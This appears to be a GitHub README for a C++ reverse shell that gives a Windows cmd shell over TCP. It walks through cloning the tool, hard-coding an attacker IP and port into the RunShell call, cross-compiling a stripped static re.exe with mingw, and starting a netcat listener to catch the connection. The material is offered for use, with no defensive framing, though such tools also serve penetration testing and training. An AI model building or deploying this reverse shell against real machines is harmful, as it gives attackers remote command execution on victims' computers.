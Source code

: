 # C ++ Reverse Shell

This is a simple C++ based reverse shell give us a windows  cmd shell over TCP .  


## installation

    $ apt install mingw-w64
    $ git clone https://github.com/dev-frog/C-Reverse-Shell.git
    $ cd C-Reverse-Shell
  


##  change The IP and Port number in the source code

There is **re.cpp** file you have to open and change the **ip address** and **port number**

![alt text](https://github.com/Hokori-ykm/rc/master/img/re.PNG)

    70 else {
    71    char host[] = "192.168.0.101";  // change this to your ip address
    72    int port = 4444;                //chnage this to your open port
    73    RunShell(host, port);
    74}
    


## Compile it

    i686-w64-mingw32-g++ re.cpp -o re.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
 

     nc -lvnp <port number>

